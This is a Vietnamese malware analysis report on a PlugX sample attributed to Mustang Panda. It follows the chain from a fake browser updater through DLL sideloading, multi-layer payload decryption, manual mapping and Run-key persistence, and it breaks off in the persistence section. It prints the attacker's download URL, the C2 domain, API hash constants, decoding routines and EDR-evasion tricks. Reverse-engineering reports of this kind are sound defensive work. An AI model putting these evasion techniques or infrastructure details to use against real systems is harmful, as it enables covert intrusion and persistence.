<!-- # MUSTANG PANDA x PLUGX - Phân tích sample tháng 01/2026: Chuỗi thực thi nhiều lớp từ Browser_Updater tới AVKTray -->

> **TL;DR.** Mẫu malware sử dụng bộ ba file `Avk.exe`, `Avk.dll` và `AVKTray.dat`, được triển khai từ file MSI do `Browser_Updater.exe` tải về. Chuỗi thực thi bắt đầu bằng kỹ thuật DLL sideloading thông qua một executable cover, sau đó payload thật được giấu trong file `.dat` và giải mã qua nhiều lớp: DJB2 -> XOR `0x63` -> ROL19 -> RC4 với key `VOphJo`. Payload cuối cùng là một PE 32-bit được manual-map vào bộ nhớ, thiết lập persistence tại `%PUBLIC%\GData`, tạo mutex `aumhYjQIQ`, đọc cấu hình proxy từ Internet Settings, rồi khởi tạo kết nối WinHTTP tới `fruitbrat[.]com:443` để đi vào controller loop và thực thi các lệnh từ C2.

---

## I. Tổng quan kỹ thuật: chuỗi thực thi từ Browser_Updater đến C2

Lần phân tích này bắt đầu từ hai mẫu IoC được cung cấp, nghi có liên quan đến hoạt động của nhóm APT Mustang Panda và họ malware PlugX. Hai mẫu ban đầu gồm một file nén `Browser_Update.zip` và một file giả dạng `iis.jpg`, trong đó kết quả từ VirusTotal cho thấy cả hai đều bị nhiều security vendor đánh dấu là độc hại.

| File Name            | SHA-256                                                            |
| -------------------- | ------------------------------------------------------------------ |
| `iis.jpg`            | `79af67ed343bc45b6a19e4836ebb83f1130243ff98f48465f9a7a807ba4bfa91` |
| `Browser_Update.zip` | `106f46375d8497d353c22c98f72ab15a9bb87beba4585d5a492fd11edc288b0b` |

Ở giai đoạn ban đầu, chain này giả mạo quá trình Update tải file MSI cài đặt cho version mới của một phần mềm. Sau đó `Avk.exe` chủ yếu đóng vai trò là chương trình khởi chạy, thực hiện `LoadLibrary` và gọi export `ModuleMain2`. `Avk.dll` hoạt động như một loader trung gian, sử dụng cơ chế resolve API theo hash và chỉ chứa lượng logic tối thiểu để đọc, giải mã và chuyển hướng thực thi sang stage tiếp theo. Trong khi đó, `AVKTray.dat` không phải là file dữ liệu mà là payload được mã hóa, chỉ thực hiện vai trò thật sau khi được loader xử lý.

Điểm đáng chú ý của mẫu này không nằm ở một kỹ thuật đơn lẻ, mà ở cách toàn bộ execution chain được chia thành nhiều lớp nhỏ, mỗi stage đảm nhiệm một nhiệm vụ cụ thể: drop file, thiết lập persistence, sideload DLL, giải mã payload, manual-map và cuối cùng sinh ra cấu hình/C2 phục vụ giao tiếp mạng. Cách tổ chức này giúp malware giảm dấu hiệu nhận diện tĩnh, hạn chế string/artifact rõ ràng trên từng file riêng lẻ, đồng thời làm chậm quá trình phân tích nếu không lần theo toàn bộ chuỗi thực thi.

### Overview Execution Chain



---

## II. Stage 0 - Browser_Updater & Avk.exe: dropping the box

### II.1. Browser_Updater.exe - dropper là một downloader, không phải installer

Khi chạy chương trình, `Browser_Updater.exe` mở một cửa sổ UI giả mạo trình cập nhật trình duyệt với hai nút **Install** và **Cancel**:



Dựa trên quan sát về các file được tạo ra trong máy người dùng khi click `Install` hoặc `Cancel` có thể đưa ra nhận định ban đầu Install sẽ thực hiện dropper process và Cacel thì chương trình thoát. UI của `Browser_Updater.exe` sử dụng kịch bản giả mạo phần mềm "Adobe Acrobat" khá phổ biến.

Behind the UI, option `Install` của `Browser_Updater.exe` thực hiện một HTTP GET tới:

```text
http://45[.]251[.]243[.]210/iis.jpg   (payload phục vụ dưới tên iis.jpg trong telemetry)
```

Response từ URL `iis.jpg` không phải là ảnh JPEG, mà là một MSI installer. Sau đó MSI này mới chịu trách nhiệm drop ra bộ ba file:

```text
%LOCALAPPDATA%\pZhozR\
├─ Avk.exe
├─ Avk.dll
└─ AVKTray.dat
```

Ngoài ra `Browser_Updater.exe` cũng được chuẩn bị rất kỹ bằng "Digital Signatures" của 1 công ty Trung Quốc **山西荣升源科贸有限公司 (ShanX Rongshengyuan Trading)**.



### II.2. Avk.exe - cái vỏ phần mềm "G DATA AntiVirus"

**`Avk.exe` chính là binary thật của G DATA AntiVirus**, được attacker sử dụng y nguyên - có signature đầy đủ của hãng.

| File Name | SHA 256                                                          |
| --------- | ---------------------------------------------------------------- |
| Avk.exe   | 8421e7995778faf1f2a902fb2c51d85ae39481f443b7b3186068d5c33c472d99 |

Đọc decompile của `Avk.exe` thì WinMain chỉ làm vài việc - set up event sync, load `AVK.dll`, gọi export `ModuleMain2` nếu có, fallback sang `ModuleMain` nếu không:



Không có C2, không có decrypt, không có persistence trong `Avk.exe`. Toàn bộ giá trị nó cung cấp cho attacker là một **legitimate-looking PE để DLL nằm cạnh nó**. Đây là DLL sideloading kinh điển kiểu PlugX.

## III. Stage 1 - Avk.dll: API hashing và RtlRegisterWait execution flow

### III.1. Export ModuleMain - chứ không phải DllMain

`Avk.dll` có một `_DllMainCRTStartup` rỗng (`return 1;`) và một export `ModuleMain`. Chính export này là cái `Avk.exe` gọi.

Logic của nó **không** chứa import table cho các API quan trọng. Mọi API kernel32/ntdll đều resolve runtime qua **DJB2 hash** dựa trên tên module (lowercase UTF-16) và tên export (ASCII).

```text
KERNEL32.DLL : 0x7040EE75
ntdll.dll    : 0x22D3B5ED

GetModuleFileNameW    : 0x13B8A163
VirtualAlloc          : 0x382C0F97
CreateEventW          : 0x5D01F1B2
SetEvent              : 0x877EBBD3
Sleep                 : 0x0E19E5FE
NtCreateFile          : 0x15A5ECDB
NtQueryInformationFile: 0x4725F863
NtClose               : 0x8B8E133D
NtReadFile            : 0x2E979AE3
NtProtectVirtualMemory: 0x082962C8
RtlRegisterWait       : 0xE4DA1C11
RtlDeregisterWait     : 0xC0D8989A
```

Hai hàm hỗ trợ thực hiện hành vi trên:

- `fn_resolve_module_base_by_djb2_hash_1000134E` duyệt `PEB->Ldr->InMemoryOrderModuleList`, lowercase tên module, tính DJB2 (seed 5381) so với hash request.
- `fn_resolve_export_by_djb2_hash_1000162D` parse `IMAGE_EXPORT_DIRECTORY`, DJB2 trên ASCII export name.

### III.2. Decode chuỗi `\AVKTray.dat`

Trong `.data` của DLL có một mảng UTF-16 obfuscated ở `0x10003018`. Logic decode đơn giản:



Kết quả: `\AVKTray.dat`. Sau đó loader lấy path của chính `Avk.dll` qua `GetModuleFileNameW`, cắt về directory, ghép với suffix vừa decode, và thêm prefix NT path `\??\`:

```text
\??\<DLL directory>\AVKTray.dat
```

Nhận định: **payload được sử dụng nằm cùng directory với DLL**.

### III.3. Đọc payload và thực hiện cấp quyền RWX



Có một điều kiện: nếu `AVKTray.dat` nhỏ hơn `0x3E8` (1000 byte), loader resolve `NtTerminateProcess` và gọi nó - fallback termination cho payload không hợp lệ. Đây là một dấu hiệu suspicious khả năng cao là mã độc: **Khi một loader đọc một file `.dat` không phải PE File rồi flip quyền Read-Write-Execute**.

### III.4. Giấu luồng thực thi sử dụng RtlRegisterWait + SetEvent

Đây là một kỹ thuật nhằm che dấu execution flow khi phân tích tĩnh - "callback-based indirect execution" của Stage 1. Loader **không** gọi:

```c
((void(*)())payload)();
```

Thay vào đó:



`RtlRegisterWait` chỉ **đăng ký** callback vào threadpool. `SetEvent` mới là điểm chuyển tiếp - khi event được signal, threadpool worker sẽ nhảy vào `payload` (buffer RWX vừa đọc từ `.dat`).

> Trick này mang lại hiệu quả cao cho attacker?
>
> 1. **Stack call thấy là `ntdll!TppExecuteWaitCallback`** chứ không phải `Avk.dll`. Nếu một EDR chỉ canh "module nào kích hoạt RWX execution", nó sẽ thấy ntdll, không thấy DLL của attacker.
> 2. Code-flow analysis tĩnh không thấy `call eax` hay `jmp eax` nào trỏ vào payload buffer - chỉ thấy một con trỏ được pass làm callback.
> 3. Loader thread sau đó vào `while(1) Sleep(0x3E8)` - giữ process treo. Threadpool worker mới là cái chạy payload.

---

## IV. Stage 2 - AVKTray.dat: tự decrypt và jump vào cJvsVIDinbGD

### IV.1. Bố cục file khi chưa giải mã final_payload

`AVKTray.dat` không có header PE. Cấu trúc mô tả như sau:

```text
0x00 ... 0x0C   :  13 byte đầu - vừa là context vừa là byte code (jump stub đến 0x9680D để giải mã)
0x0D ... 0x9680C:  0x96800 byte payload chính bị encoded, XOR với 0x63 để giải mã
0x9680D ...     :  trailer/decode-stub logic XOR 0x63
```

Khi `RtlRegisterWait` callback nhảy vào `payload` (= địa chỉ đầu buffer), execution chạy vào 0xC byte stub đầu. Đoạn này nhảy vào hàm thực hiện giải mã 0x96800 byte payload chính bị encoded, sử dụng thuật toán XOR với 0x63 để giải mã.



Hàm `0x44` byte tự XOR `payload[0x0D : 0x0D + 0x96800]` với key `0x63`, in place.



Sau khi return, control flow nhảy vào code đã decoded ở `+0xD`, là một thunk thứ hai. Stub này:

1. `dec ebp` / `pop edx` / `call $+5` / `pop ebx` - chuẩn shellcode lấy IP relative.
2. `add ebx, 0B09h` - tính offset tới hàm thực thi tiếp theo.
3. `call ebx` - gọi hàm thực thi chính tiếp theo - là hàm cJvsVIDinbGD của final_payload.bin.



Đây là kiểu "decrypt-then-jump" nhưng **không phải PE**. Không có ImageBase. Không có sections. Flow của `cJvsVIDinbGD` bị **control-flow flattening** (các comment `conditional instruction was optimized away because edx.4==47F4E69D` rải khắp decompile IDA).

---

## V. Stage 3 - cJvsVIDinbGD: manual PE mapper với ROL19 hash

### V.1. Vai trò

`cJvsVIDinbGD` (tên export khi dump và giải mã ra thành "final_payload.bin") là một hàm dạng **manual PE loader**. Tức là nó tự làm những việc mà Windows loader bình thường làm:

```text
1. Scan ngược tìm MZ/PE của chính nó (không gọi GetModuleHandle)
2. Resolve KERNEL32 & NTDLL bằng ROL19 hash
3. VirtualAlloc image mới
4. Copy headers + sections
5. Resolve import table
6. Apply relocations
7. Set per-section memory protection
8. NtFlushInstructionCache
9. Call mapped entry point hai lần với hai reason khác nhau
```

### V.2. Self-base scan

Hàm `fn_get_return_address_1000170C` trả về return address từ stack:



Địa chỉ này sau đó được dùng làm điểm bắt đầu để xác định vùng ảnh PE đang được nạp trong bộ nhớ. Từ vị trí hiện tại, hàm `cJvsVIDinbGD` thực hiện quét ngược trong memory để tìm DOS header `MZ` (`0x5A4D`), sau đó kiểm tra trường `e_lfanew` để xác nhận NT header `PE` (`0x4550`):



Đoạn này sử dụng kỹ thuật **self-location / in-memory PE discovery**. Loader lấy return address hiện tại trên stack, sau đó quét ngược trong bộ nhớ để tìm DOS header `MZ` và xác thực NT header `PE` thông qua trường `e_lfanew`.

Mục đích của bước này là xác định base address của PE đang nằm trong memory mà không cần gọi các API như `GetModuleHandle`. Đây là pattern thường thấy trong shellcode, reflective loader và manual PE mapper. Chuỗi hành vi "lấy return address -> scan ngược tìm `MZ/PE`" là một dấu hiệu hữu ích để định vị loader hoặc payload được nạp.

### V.3. ROL19 hash - Cơ chế mã hóa khác với Stage 1

`cJvsVIDinbGD` không sử dụng chung thuật toán DJB2 giống `Avk.dll` để giải mã. Nó dùng **rotate-left 19 + uppercase** có dạng chung như mô tả dưới:

```c
hash_acc = ROL32(hash_acc, 19);
if (byte < 0x61)            // đã uppercase
    hash_acc += byte;
else                         // lowercase -> bù vào ROL trước
    hash_acc -= (32 - byte);
```

Module/API đã recover:

```text
KERNEL32.DLL : 0x6A4ABC5B
NTDLL.DLL    : 0x3CFA685D

LoadLibraryA            : 0xEC0E4E8E
GetProcAddress          : 0x7C0DFCAA
VirtualAlloc            : 0x91AFCA54
VirtualProtect          : 0x7946C61B
NtFlushInstructionCache : 0x534C0AB8
```

Việc Stage 1 và Stage 3 sử dụng hai cơ chế hash khác nhau có thể nhằm gây khó khăn cho quá trình phân tích tĩnh mã độc. Nếu defender chỉ xây dựng rule nhận diện cơ chế DJB2 được dùng ở Stage 1, rule đó sẽ không phát hiện được cơ chế hash ở Stage 3, và ngược lại. Cách triển khai nhiều lớp hash khác nhau khiến logic resolve API trở nên khó theo dõi hơn, đồng thời làm tăng độ phức tạp khi reverse engineering.

### V.4. Manual mapping

Sau khi xác định được PE trong bộ nhớ, payload sử dụng cơ chế **manual mapping** để tự nạp image thay vì gọi loader chuẩn của Windows.



Vùng nhớ được cấp phát với kích thước `SizeOfImage + 0x03C00000`, lớn hơn đáng kể so với kích thước PE thực tế. Phần padding này không thuộc cấu trúc image, nhưng có thể gây nhiễu cho các heuristic memory scanning đơn giản dựa vào kích thước vùng allocate để nhận diện payload được map trong bộ nhớ.

Sau khi cấp phát, loader thực hiện các bước manual mapping tiêu chuẩn: copy section, resolve import, áp dụng relocation với delta `mapped_base - OptionalHeader.ImageBase`, sau đó set lại memory protection cho từng section dựa trên `IMAGE_SECTION_HEADER.Characteristics`.

Khi quá trình map hoàn tất, payload flush instruction cache và gọi entry point hai lần ( DllEntryPoint(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) ):



Lần gọi đầu tiên sử dụng `DLL_PROCESS_ATTACH` để thực hiện khởi tạo ban đầu. Lần gọi thứ hai sử dụng reason `0x190`, đây không phải reason chuẩn của Windows mà là **internal dispatch code** do payload tự định nghĩa.

Trong mẫu này, nhánh reason = `0x190` mới là điểm chuyển sang runtime chính, nơi payload tiếp tục khởi tạo worker thread và đi vào luồng xử lý tiếp theo.

---

## VI. Stage 4 - Runtime bootstrap: hook, mutex, self-install và persistence

Sau khi `cJvsVIDinbGD` manual-map xong `final_payload`, entry point của payload được gọi hai lần: lần đầu với reason `1` để thực hiện khởi tạo kiểu `DLL_PROCESS_ATTACH`, và lần thứ hai với reason `0x190` để chuyển sang runtime chính. Từ đây, payload bắt đầu triển khai các hành vi long-lived: patch exception filter, tạo worker thread, phân nhánh theo command line, tự cài đặt sang `%PUBLIC%\GData`, ghi persistence và cuối cùng đi vào controller runtime.

### VI.1. Patch SetUnhandledExceptionFilter

Follow chính nằm trong nhánh được kích hoạt khi entry point nhận reason `0x190`. Trước khi tạo worker thread, hàm này gọi:

```text
fn_patch_set_unhandled_exception_filter_10001138();
```



Hàm trên thực hiện resolve động một số API cần thiết, bao gồm `SetUnhandledExceptionFilter`, `WriteProcessMemory` và `GetCurrentProcess`. Tên DLL/API được giải mã từ các stub XOR bằng công thức bytewise `(i - 119) ^ 0x89`.

Sau khi resolve API, payload dùng `WriteProcessMemory` để ghi đè 5 byte đầu của `SetUnhandledExceptionFilter` bằng một lệnh JMP:

```c
E9 xx xx xx xx
```

Lệnh JMP này chuyển hướng execution sang stub `fn_set_unhandled_exception_filter_return_null_10001133`, có nhiệm vụ trả về `NULL` ngay lập tức.

Về mặt hành vi, đây là kỹ thuật **API patching nhằm vô hiệu hóa cơ chế exception filter ở cấp tiến trình**. Sau khi bị patch, các lời gọi `SetUnhandledExceptionFilter()` sẽ không còn thiết lập exception handler mới như bình thường, mà chỉ trả về `NULL`.

Điều này giúp payload kiểm soát tốt hơn hành vi khi xảy ra exception/crash, đồng thời làm giảm khả năng các cơ chế giám sát runtime hoặc sandbox can thiệp vào luồng xử lý exception của tiến trình.

### VI.2. Worker thread - Main Logic final_payload.bin

Sau khi patch exception filter, payload tạo worker thread để chạy logic chính:



Đoạn này sử dụng kỹ thuật giải mã tên API khá phổ biến đối với các mẫu **PlugX**: các chuỗi tên API được nhúng dưới dạng đã XOR trên stack, sau đó được giải mã từng byte và dùng để resolve địa chỉ hàm tương ứng.

Mỗi API name có một XOR pattern khác nhau. Cách triển khai này tạo thêm một lớp gây nhiễu đối với quá trình static decrypt, vì các API quan trọng không xuất hiện trực tiếp dưới dạng plaintext trong binary.

### VI.3. Phân nhánh thực thi dựa trên số lượng đối số

Trong `fn_worker_thread_entry_10001290`, malware lấy command line hiện tại, tách thành `argv/argc`, sau đó chọn nhánh thực thi dựa trên số lượng argument:





Phân tích ba nhánh này như sau:

| Điều kiện   | Ngữ cảnh thực thi                      | Hành vi chính                                                                                      |
| ----------- | -------------------------------------- | -------------------------------------------------------------------------------------------------- |
| `argc == 1` | Lần chạy đầu tiên từ staging directory | Self-install sang `%PUBLIC%\GData`, ghi persistence, sau đó chạy controller                        |
| `argc == 2` | Argument mode phụ                      | Gọi routine install/persistence với mode khác, chỉ chạy controller nếu argument bắt đầu bằng `pri` |
| `argc == 3` | Relaunch từ Run key sau khi user logon | Delay, tạo mutex, nếu chưa có instance thì chạy controller                                         |

Điểm quan trọng là persistence không được thiết lập bởi `Browser_Updater.exe`, `Avk.exe` hay `Avk.dll`. Nó chỉ xuất hiện muộn hơn, sau khi `AVKTray.dat` đã được decrypt, `final_payload` đã được manual-map, và worker thread của payload đi vào nhánh `argc == 1`.

### VI.4. `argc == 1`: Self-install sang `%PUBLIC%\GData`

Ở lần chạy đầu tiên, khi người dùng thực thi installer/dropper trực tiếp, command line chỉ có một đối số, tương ứng với `argc == 1`. Khi đó malware gọi:



Nhánh này thực hiện self-install từ staging directory sang một location ổn định hơn:

```text
%PUBLIC%\GData\
├─ Avk.exe
├─ Avk.dll
└─ AVKTray.dat
```

Các hành vi chính gồm:

1. Expand đường dẫn `%public%\GData` từ config đã giải mã.
2. Tạo directory tree nếu thư mục đích chưa tồn tại.
3. Copy `Avk.exe`, `Avk.dll`, `AVKTray.dat` từ staging directory sang `%PUBLIC%\GData`.
4. Ghi persistence vào Run key của current user.
5. Sau đó gọi `fn_start_controller_runtime_100016E1()` để chuyển sang luồng controller chính.

Tên thư mục `GData` không phải ngẫu nhiên. Nó trùng với publisher/brand hợp pháp của `Avk.exe`. Vì `Avk.exe` là binary G DATA AntiVirus thật và có chữ ký hợp lệ, một thư mục:

```text
C:\Users\Public\GData\
```

chứa file:

```text
Avk.exe
```

sẽ trông tương đối hợp lý nếu admin chỉ kiểm tra lướt qua. Đây là pattern có thể mô tả là **living-off-the-name-space**: attacker tận dụng tên/vendor hợp pháp để làm cho location cài đặt giả có vẻ bình thường.

Tuy nhiên, nếu kiểm tra toàn bộ thư mục thì điểm bất thường nằm ở hai file đi kèm:

```text
Avk.dll
AVKTray.dat
```

`Avk.dll` là DLL không hợp lệ của G DATA trong chain này, còn `AVKTray.dat` không phải file data bình thường mà là encrypted payload. Vì vậy, detection không nên chỉ nhìn riêng `Avk.exe`, mà cần xét cả bộ ba file nằm cạnh nhau.

### VI.5. Persistence Run key và filler arguments

Sau khi copy bộ ba file sang `%PUBLIC%\GData`, payload ghi persistence tại:

```text
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\G Data
    = "C:\Users\Public\GData\Avk.exe" 688 768
```

